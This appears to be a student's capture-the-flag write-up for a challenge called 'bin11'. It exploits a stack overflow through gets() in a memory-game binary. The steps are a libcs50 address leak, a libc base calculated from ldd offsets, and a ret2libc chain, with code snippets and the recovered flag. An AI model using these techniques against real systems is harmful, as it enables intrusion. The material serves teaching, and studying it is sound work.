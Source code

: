 # bin11:Solution

This challenge was similar to my own (bin3), bin2, and the ret2libc challenge from earlier this semester. There are a few key differences that made this one far more difficult than it should have been (for me anyway)

The binary is compiled with NX and Partial RELRO
```
checksec 4memory_vr
[*] '/root/workspace/vuln/midterm/ctfd/tyler/4memory_vr'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The initial output when the program is run is:
```
Welcome to Memory! Ready Player 8389928...
Here's the board:
    0   1   2   3
0 | $ | $ | $ | $ 
-----------------
1 | $ | $ | $ | $ 
-----------------
2 | $ | $ | $ | $ 
-----------------
3 | $ | $ | $ | $ 
-----------------
Choose an option: 
(F) Find a match 
(Q) Quit 
Choice:
```

Once you choose F you are prompted to enter two sets of coordinates. Looking at the binary in binja we can see that they need to be set to specific values to pass through to the exploitable portion of the program.
```
00401305      printf(format: "Pick first card (row, column): ")
00401324      __isoc99_scanf(format: "%d,%d", &var_60, &var_64)
00401338      printf(format: "Pick second card (row, column): ")
00401357      __isoc99_scanf(format: "%d,%d", &var_68, &var_6c)
00401386      if (var_60 == 1337 && var_68 == 31337 && var_64 == 31337 && var_6c == 1337)
```

The valid input is:
1337, 31337   
31337, 1337

The the program prints out the location of the function get_long_long. This function isn't part of libc. When trying to run locally, the program shows that it is looking for "libcs50". (I was unable to reproduce this for this report because I'd already added libcs50 to my path)

The libcs50 library has the funtion get_long_long. So we save the output of it's location locally and then symbolically find the location of get_long_long one the remote server. 
```
remote_get = int(p.recvline(), 16)

local_get = libcs.sym['get_long_long']
```

Using these values we can get the base address of libcs50. Then we need to get the base address of libc so that we can get to the gadgets we need. The pop rdi gadget isn't in libcs50.
```
ropper -f libcs50.so | grep pop
0x0000000000001884: pop rbp; clc; leave; ret; 
0x00000000000011f3: pop rbp; ret; 
```

This part took the most time due to the fact that the computer I was working on has issues with ldd. Most of the time it doesn't work, and this time it was pretty vital to the solve. 

ldd gave this output:
```
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007ffeb6948000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007f89306ea000)
        libc.so.6 => ./libc.so.6 (0x00007f8930509000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f89306f1000)
```
 
However the output changes everytime it's run:
```
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007ffc2b1c1000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007fa5847e8000)
        libc.so.6 => ./libc.so.6 (0x00007fa584607000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fa5847ef000)
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007ffec3d20000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007ff012535000)
        libc.so.6 => ./libc.so.6 (0x00007ff012354000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ff01253c000)
laptop: bin11$ ldd 4memory_vr_patched
        linux-vdso.so.1 (0x00007fff46f5a000)
        libcs50.so.11 => ./libcs50.so.11 (0x00007fc42b051000)
        libc.so.6 => ./libc.so.6 (0x00007fc42ae70000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fc42b058000)
```

However the distance between libc and libcs50 is consistent so we can just use one output to calculate the difference between the two. 
```
ldd_cs50 = int(0x00007f89306ea000)
ldd_libc = int(0x00007f8930509000)

# libc offset (difference between libc and libcs50
offset_libc = ldd_cs50 - ldd_libc
```

Then we can use the base address of libcs50 and the difference between it and libc to get the base address of libc. 
```
# libc base address of running program
base = offset_cs50 - offset_libc
```

Looking at the program in binja we can get the size of the buffer to overflow 48 + base pointer = 56
```
004013db  488d45d0           lea     rax, [rbp-48 {var_38}]
004013df  4889c7             mov     rdi, rax {var_38}
004013e2  b800000000         mov     eax, 0x0
004013e7  e8a4fcffff         call    gets
```

From here I could use the exact same lines of code I've used for a number of challenges and get the flag!
```
flag{d0_u_b3li3v3}
```

Resources:
* my own [challenge](https://github.com/kourtnee/VR_HW/tree/main/Midterm/bin3)
* the [ret2libc]() challenge
* BIG thanks to Louie for sending me the output of ldd so that I could calculate the distance between the libararies (all ldd output in this report comes from his laptop via discord)
* Tyler sent me the slides from his my-first-pwn presentation which helped with figuring out how to calculate the base addresses
* https://github.com/cs50/libcs50
